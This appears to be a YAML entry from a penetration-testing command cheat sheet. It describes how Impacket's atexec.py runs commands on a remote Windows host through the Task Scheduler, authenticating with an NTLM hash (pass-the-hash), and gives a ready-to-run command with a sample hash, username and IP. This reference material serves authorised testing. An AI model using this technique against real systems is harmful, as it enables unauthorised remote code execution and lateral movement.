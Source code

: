 ```yaml
---
description: |
  Impacket's atexec.py uses the Task Scheduler service on the remote Windows host to execute the given command. It will create a windows task with a random name, trigger the task, and then delete it. The following command executes `whoami` on the remote Windows host, authenticating with the hash of user `john`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76

  	Command Executed: whoami
command: |
  python3 atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 test.local/john@10.10.10.1 whoami
items:
  - Hash
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py
  - https://u0041.co/blog/post/1
---
```

